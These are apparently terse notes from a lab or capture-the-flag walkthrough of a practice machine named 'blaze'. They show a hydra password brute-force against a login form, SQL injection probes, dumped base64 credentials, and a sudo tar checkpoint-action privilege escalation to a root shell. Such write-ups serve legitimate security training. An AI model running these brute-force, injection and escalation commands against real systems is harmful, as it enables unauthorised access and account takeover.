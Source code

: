 found a login page created by jdgodd
-  hydra \-l jdgodd \-P /usr/share/wordlists/rockyou\.txt 192\.168\.246\.10 http\-post\-form “/login\.php:username=^USER^\&password=^PASS^:invalid password”
\[80\]\[http\-post\-form\] host: 192\.168\.246\.10   login: jdgodd   password: sleepy

\(does not work\)

username 
jd'

Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%' AND password like '%%'' at line 1

jd' # \-\> invalid password
jd' UNION SELECT 1,2,3,4,5 #


 
|Username|Password|base64 encoded|
| --- | --- | --- |
|cameron|dGhpc3NjYW50dGJldG91Y2hlZGRANDU1MTUy|thisscanttbetouchedd@455152|
|james|Y2FudHRvdWNoaGh0aGlzc0A0NTUxNTI=|canttouchhhthiss@455152|
 


-  [https://192.168.246.10:9090](#https://192.168.246.10:9090)

-  james:canttouchhhthiss@455152

-  terminal
$ local\.txt

-  sudo \-l
-  User james may run the following commands on blaze:
\(ALL\) NOPASSWD: /usr/bin/tar \-czvf /tmp/backup\.tar\.gz \*

tar \- GTFObins

-  sudo /usr/bin/tar \-czvf /tmp/backup\.tar\.gz \* \-\-checkpoint=1 \-\-checkpoint\-action=exec=/bin/sh
# root


